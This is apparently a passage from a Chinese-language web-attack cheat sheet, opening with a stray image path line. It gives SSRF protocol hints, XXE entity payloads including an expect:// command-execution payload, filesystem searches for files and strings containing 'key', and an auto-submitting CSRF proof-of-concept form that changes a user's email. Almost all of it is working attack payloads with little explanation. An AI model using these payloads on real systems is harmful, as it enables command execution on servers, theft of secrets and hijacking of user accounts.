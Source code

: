 - SSRF常用的协议都可以试试

```
dict://
gopher://
```

- 特殊语法

```xml
<!DOCTYPE root [
    <!ENTITY % aaa SYSTEM "data://text/plain,abdef">
    %aaa;
]>
<root></root>
```

- expect协议执行命令

```xml
<!DOCTYPE foo [<!ENTITY bar SYSTEM "expect://ls$IFS-la">]><foo>&bar;</foo>
```

## 暴力检索

```shell
grep -r "key:" <ROOT_PATH>

find <ROOT_PATH> -name "*key*" -type f
```

```cmd
dir /s /b *key*

findstr /s /i /c:"key" *

# 默认当前目录 需要指定目录的话
# cd <ROOT_PATH> & <CMD>
```

## CSRF

基本CSRF

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>CSRF PoC</h1>
    <form method="POST" action="https://example.com/api/xxx">
      <input type="hidden" name="email" value="user@example.com">
      <input type="submit" value="Submit Request">
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

